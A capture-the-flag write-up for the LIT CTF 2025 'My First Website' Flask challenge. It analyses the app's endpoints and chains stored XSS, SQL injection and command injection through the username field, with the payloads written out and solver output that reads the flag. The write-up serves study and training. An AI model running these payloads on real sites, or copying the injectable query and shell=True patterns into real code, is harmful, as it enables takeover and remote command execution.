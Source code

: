 
# WhiteDukesDZ - LIT CTF 2025 Writeup: My First Website Challenge

![WhiteDukesDZ Logo](challenge/my-first-website.png)

We were also provided with the `app.py`, `schema.sql`, `init_db.py` file as part of this challenge.

---

## Challenge Summary

This challenge presented a simple Python Flask web application simulating a contact panel where users can report issues in comments. The goal was to analyze the application for vulnerabilities and exploit them to retrieve the flag.

## Provided Files
- `app.py` (Flask web app)
- `schema.sql` (The schema of SQL tables used by the web application)
- `init_db.py` (The python script that initialize the database with the tables provided in schema)

## Application Analysis

After reviewing `app.py`, we identified eight main endpoints:

1. **`/` (Home):**
    - If `username` is not set in the session, redirects to `/login`.
    - Otherwise, renders the main page with user own `comments`.

2. **`/login`:**
    - Accepts `GET` and `POST` requests.
    - On `GET`, renders the login form, the form have two inputs `name` and `password`.
    - On `POST`, verifies the existence of the `username` and `password` in database:
      - If the credentials are correct, redirects to `/`.
      - If the credentials are incorrect, redirects to `/login` and display `Invalid credentials` message.

3. **`/signup`:**
    - Accepts `GET` and `POST` requests.
    - On `GET`, renders the login form, the form have four inputs `name`, `email`, `password` and `confirm`.
    - On `POST`, verifies:
      - If `password` != `confirm`, redirects to `/signup` and display `passwords do not match` message.
      - If `username` already exists in database, redirects to `/signup` and display `user already exists` message.
    Otherwise, <ins>inserts the new user into the database without any further sanitizations</ins>, and redirects to `/login`

4. **`/contact`:**
    - Accepts only `POST` requests with `comment` in request body.
      - If `username` is not set in session, redirects to `/login`.
    Otherwise, <ins>inserts the new `comment` into the database without any further sanitizations</ins>, and shows the submission message.



5. **`/admin`:**
    - verifies if user is not admin, shows a `403` Error (Unauthorized).
    Otherwise, shows the admin page with <ins>all comments</ins> displayed. 

6. **`/updatePassword`:**
    - Accepts only `POST` requests with `newPassword` in request body.
      - verifies if user is not admin, shows a `403` Error (Unauthorized).
    Otherwise, update the currently connected user password to `newPassword` without any further sanitizations.

7. **`/resetDB`:**
    - Accepts only `POST` requests.
      - verifies if user is not admin, shows a `403` Error (Unauthorized).
    Otherwise, runs a shell command with current `username` that will reset the database and set the current user to admin.
      - If command fails, shows `DB RESET FAILED` message.
      - If command succeed shows `Success` message.

8. **`/logout`:**
    - Log out the currently connected user and redirects to `/`.

### Security Observations

- The `/contact` endpoint does not filter for XSS payloads in the `comment` field. For example, setting `comment` to `<script>alert('WhiteDukesDZ')</script>` will execute the JavaScript payload:

  ![WhiteDukesDZ Logo](demonstration/xss.png)

In the challenge description it is mentioned that <ins>the admin frequently checks the website.</ins> And because the `/admin` ednpoint shows all comments, we definetly can exploit this XSS vulnerability to make the admin perform malicious actions.

- The `/updatePassword` endpoint use a vulnerable SQL query to update password.

```python
cur.execute(f"UPDATE users SET password = '{newPassword}' WHERE username = '{session.get('username')}'")
```

This query is vulnerable to SQL injection.

- The `/resetDB` endpoint runs a shell command with user controlled input `username`. Meaning this endpoint is vulnerable to command injection.

```python
result = subprocess.run(f"python init_db.py {session.get('username')}", shell=True)
```

- There is no CSRF protection in `/updatePassword`, nor `/resetDB`. Meaning we can use that XSS vulnerability from `/contact` in order to make the admin exploit that SQL injection in `/updatePassword` and the command injection in `/resetDB`.
---

## Solution

Based on our Application Analysis and Security Observations, we can execute commands using this strategy:

- Create a new account with a malicious `username` that will contain the command we want to execute `username=; echo $(ls -al) > static/output.txt ;#`. If this `username` is used in the shell command that will run when accessing `/resetDB` it will result in this command being executed:

```python
result = subprocess.run(f"python init_db.py ; echo $(ls -al /) > static/output.txt ;#", shell=True)
```

- Log In with our newly created user.

- Insert a malicious `comment` containing our XSS payload. We want a XSS payload that will result in admin exploiting the SQL Injection in `/updatePassword` to update our newly created user to `admin=1` in database. We can achieve that by making admin POST to `/updatePassword` with `newPassword=dummy', admin=1 WHERE admin=0--` this will result in this SQL query being executed:

```python
cur.execute(f"UPDATE users SET password = 'dummy', admin=1 WHERE admin=0--' WHERE username = '{session.get('username')}'")
```

So our final XSS payload will be:

```html
<script>
fetch("/updatePassword", {
  method: "POST",
  headers: {"Content-Type": "application/x-www-form-urlencoded"},
  body: "newPassword=dummy', admin=1 WHERE admin=0--"
});
</script>
```

- After the admin visits `/admin` the XSS payload gets executed, We access `/resetDB` with our newly created user (Since our newly created user will be admin).

- Verifies `/static/output.txt`, to see the output of our executed command.

We automated this process in `solution/solve.py`. To run the exploit against the remote instance provided by LIT CTF:

```sh
python3 solve.py <command_here>
```

If successful, the script will output the result of command execution:

```sh
┌──(s450r1㉿S450R1)-[~/…/lit-ctf-writeups/web/my-first-website/solution]
└─$ python3 solve.py "ls -a"
Account created successfully.
Logged in successfully.
Comment sent successfully.
Database reset successfully.
=== OUTPUT ===
. .. __pycache__ admin_bot.py admin_bot2.py app.py database.db entrypoint.sh error.log flag-9f8df47e-782d-4eec-be9a-1f80df3768e3.txt flask_session info.log init_db.py requirements.txt run.sh run_old.sh schema.sql static templates

┌──(s450r1㉿S450R1)-[~/…/lit-ctf-writeups/web/my-first-website/solution]
└─$ python3 solve.py "cat flag-9f8df47e-782d-4eec-be9a-1f80df3768e3.txt"
Account created successfully.
Logged in successfully.
Comment sent successfully.
Database reset successfully.
=== OUTPUT ===
LITCTF{us3rn4m3_1nj3c710n_7f62be7ddc0d597f}
```



